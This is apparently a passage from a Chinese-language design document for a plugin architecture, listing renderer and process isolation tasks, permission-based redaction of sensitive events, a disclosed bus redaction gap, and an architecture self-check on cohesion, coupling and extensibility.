- [ ] renderer 侧 portal + ErrorBoundary + 受限加载器三道软隔离（不声称 window 级隔离）；不可信富内容走 webview。
- [ ] renderer 侧 `pi.events.on` 收到的 event 同样经 `content:sensitive` 过滤（core main→renderer 转发前按订阅插件权限脱敏）。
- [ ] 错误隔离：插件 worker 崩溃只禁用自己，core 主进程捕获 `onCrash` 通知 UI。
- [ ] bus 是已知的 `content:sensitive` 旁路：bus payload 不做脱敏，当前仅靠规范约束、不受第 4 节门控保护（12.7）；演进项对 bus payload 做按订阅者 `content:sensitive` 脱敏或对跨权限级转发拦截，审计者不得假定 bus 受第 4 节门控保护。

---

### 架构自检
- [x] 高内聚：安全动作按职责归位到各洋葱层（进程隔离在 shell、授权在 application、过滤在 gateway、圆心不感知），每层职责单一、边界清晰。
- [x] 低耦合：圆心依赖最小化（零外部依赖、不感知权限）；外层经接口（PluginRuntime、PackageFetcher）倒置，安全策略可替换不影响圆心契约。
- [x] 开闭原则：新权限枚举、新过滤策略通过扩展 gateway/application 实现，不改圆心和已有槽位契约；webview 强隔离作为旁路扩展而非默认改动。
- [x] 方案视角：解决根本问题（把信任从"分级加载"转成"统一沙箱+显式权限"，把窃取从"隐蔽自动"转成"意图可见"），而非给每类插件打补丁。